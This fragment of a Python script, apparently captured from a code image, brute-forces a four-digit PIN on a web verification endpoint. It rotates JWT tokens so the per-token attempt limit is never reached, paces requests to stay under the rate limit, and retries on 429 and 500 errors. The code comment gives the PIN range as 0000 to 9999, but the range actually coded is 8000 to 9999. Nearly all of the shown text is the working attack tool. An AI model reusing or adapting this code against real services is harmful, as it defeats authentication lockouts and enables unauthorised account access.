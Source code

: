 ```python
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": f"{BASE_URL}/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9,bn;q=0.8",
    "Priority": "u=1, i"
}

# Rate limiting configuration
REQUESTS_PER_SECOND = 3
ATTEMPTS_PER_TOKEN = 3
PIN_RANGE = range(8000, 10000)  # 0000 to 9999
MAX_RETRIES = 4
BASE_BACKOFF = 1  # Seconds
REQUEST_INTERVAL = 1 / REQUESTS_PER_SECOND  # Time per request (0.333s for 3 req/s)

def rotate_token(current_token):
    """Rotate the JWT token by sending a POST request to the rotate-token endpoint."""
    headers = HEADERS.copy()
    headers["X-Quantum-Token"] = current_token
    for attempt in range(MAX_RETRIES):
        try:
            response = requests.post(f"{BASE_URL}{ROTATE_TOKEN_ENDPOINT}", headers=headers, cookies=COOKIES, timeout=5)
            response.raise_for_status()
            data = response.json()
            if data.get("success"):
                return data["token"]
            else:
                print(f"Token rotation failed: {data.get('message')}")
                return None
        except requests.RequestException as e:
            if isinstance(e, requests.HTTPError) and e.response.status_code == 429:
                sleep_time = BASE_BACKOFF * (2 ** attempt) + random.uniform(0, 0.1)
                print(f"429 on token rotation, retrying after {sleep_time:.2f}s...")
                time.sleep(sleep_time)
            else:
                print(f"Error rotating token: {e}")
                return None
    print("Max retries reached for token rotation.")
    return None

def verify_pin(pin, token, request_start_time):
    """Send a PIN verification request with retry on 429 or 500 errors."""
    headers = HEADERS.copy()
    headers["X-Quantum-Token"] = token
    payload = {"pin": f"{pin:04d}"}
    for attempt in range(MAX_RETRIES):
        try:
            response = requests.post(f"{BASE_URL}{VERIFY_PIN_ENDPOINT}", headers=headers, cookies=COOKIES, json=payload, timeout=5)
            response.raise_for_status()
            # Adjust timing to maintain 3 req/s
            elapsed = time.time() - request_start_time
            if elapsed < REQUEST_INTERVAL:
                time.sleep(REQUEST_INTERVAL - elapsed)
            return response.json()
        except requests.RequestException as e:
            if isinstance(e, requests.HTTPError) and e.response.status_code in (429, 500):
                sleep_time = BASE_BACKOFF * (2 ** attempt) + random.uniform(0, 0.1)
                print(f"{e.response.status_code} on PIN {pin:04d}, retrying after {sleep_time:.2f}s...")
                time.sleep(sleep_time)
```